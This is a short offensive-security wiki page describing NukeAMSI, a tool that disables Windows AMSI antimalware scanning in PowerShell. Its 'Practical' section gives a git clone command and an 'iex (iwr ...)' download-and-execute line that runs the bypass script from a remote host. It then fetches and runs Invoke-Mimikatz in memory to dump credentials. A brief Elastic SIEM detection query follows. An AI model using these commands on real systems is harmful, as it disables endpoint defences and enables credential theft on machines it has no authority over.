 ```yaml
---
icon: forward
---
```


# AMSI Bypass

## Introduction

NukeAMSI is a powerful tool designed to neutralize the Antimalware Scan Interface (AMSI) in Windows environments. Developed for educational purposes, this script enables users to disable AMSI protections within the current PowerShell session, allowing for the execution of scripts that would typically be flagged or blocked by Windows Defender and other antivirus solutions.

## Features

* _**Direct Memory Manipulation**_**:** NukeAMSI utilizes direct memory manipulation techniques to disable AMSI, leveraging the ntdll library and other critical Windows APIs. This ensures that AMSI is effectively bypassed without raising alerts or triggering additional security measures.
* _**Stealth Operations**_**:** The tool operates in-memory, meaning it leaves no trace on disk. This makes it particularly useful in scenarios where maintaining operational security is paramount.
* _**Highly Effective Bypass**_**:** Unlike traditional AMSI bypass techniques that may involve patching specific functions, NukeAMSI attacks AMSI at a deeper level. By leveraging ntdll, it targets the heart of AMSI's detection mechanisms, ensuring a higher success rate even against updated antivirus engines.

## Practical

### Downloading the Script

```
git clone https://github.com/anonymous300502/Nuke-AMSI.git
```

### Executing the Script on Windows Host

```
iex (iwr "http://192.168.56.2:8090/NukeAMSI.ps1")
```

### Executing Mimikatz

```
iex (iwr "https://raw.githubusercontent.com/PowershellMafia/Powersploit/refs/heads/master/Exfiltration/Invoke-Mimikatz.ps1")
```

```
Invoke-Mimikatz
```



## Detection

### Elastic SIEM Query

```
event.code(800 OR 4103 OR 4104) AND "VirtualProtectEX" OR "NukeAMSI"
```





***

## REFERENCES

* [https://github.com/anonymous300502/Nuke-AMSI](https://github.com/anonymous300502/Nuke-AMSI)
* [https://www.cyberark.com/resources/threat-research-blog/amsi-bypass-patching-technique](https://www.cyberark.com/resources/threat-research-blog/amsi-bypass-patching-technique)
* [https://raw.githubusercontent.com/PowershellMafia/Powersploit/refs/heads/master/Exfiltration/Invoke-Mimikatz.ps1](https://raw.githubusercontent.com/PowershellMafia/Powersploit/refs/heads/master/Exfiltration/Invoke-Mimikatz.ps1)
* [https://www.youtube.com/watch?v=Us2erc0T1L0\&ab\_channel=CyberAttack%26Defense](https://www.youtube.com/watch?v=Us2erc0T1L0\&ab\_channel=CyberAttack%26Defense)
* [https://raw.githubusercontent.com/samratashok/nishang/refs/heads/master/Gather/Invoke-Mimikatz.ps1](https://raw.githubusercontent.com/samratashok/nishang/refs/heads/master/Gather/Invoke-Mimikatz.ps1)

